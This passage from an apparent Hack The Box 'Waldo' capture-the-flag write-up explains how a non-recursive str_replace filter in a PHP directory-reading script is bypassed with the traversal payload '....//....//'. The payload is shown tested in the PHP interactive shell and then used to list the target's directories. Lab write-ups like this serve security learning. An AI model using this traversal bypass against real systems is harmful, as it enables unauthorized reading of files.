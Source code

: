 The various files we read are:
 - [fileRead.php](fileRead.php)
 - [fileWrite.php](fileWrite.php)
 - [fileDelete.php](fileDelete.php)
 - [dirRead.php](dirRead.php)

 The first thing I tried was to use `fileWrite` to write an arbitrary PHP file in the `.list` directory but the filename is derived from the `listnum` parameter which is checked to make sure it's numeric (PHP's is_numeric() function). So we can't write files with the appropriate extension and execute code.

 Next, I looked at the dirRead.php file to try to enumerate the file system. The function uses a `str_array` filter to replace characters that could be used for path traversal:

 ```
 str_replace(array("../", "..\"), "", $_POST['path'])
 ```

So something like `../../../../../` will get replaced with an empty string which is going to default to the current directory.

We can verify with using the interactive PHP interpreter:

```
root@darkisland:~# php -a
Interactive mode enabled

php > 
php > echo str_replace( array("../", "..\\"), "", array("../../../../"))[0];
php >
php > echo str_replace( array("../", "..\\"), "", array("this_is_not_blacklisted"))[0];
this_is_not_blacklisted
```

We can bypass the filter by using the following sequence: `....//....//....//....//`

```
php > echo str_replace( array("../", "..\\"), "", array("....//....//....//....//"))[0];
../../../../
```

Running it on the target system, we are able to navigate to the user directory:

![readdir](/assets/images/htb-writeup-waldo/readdir.png)
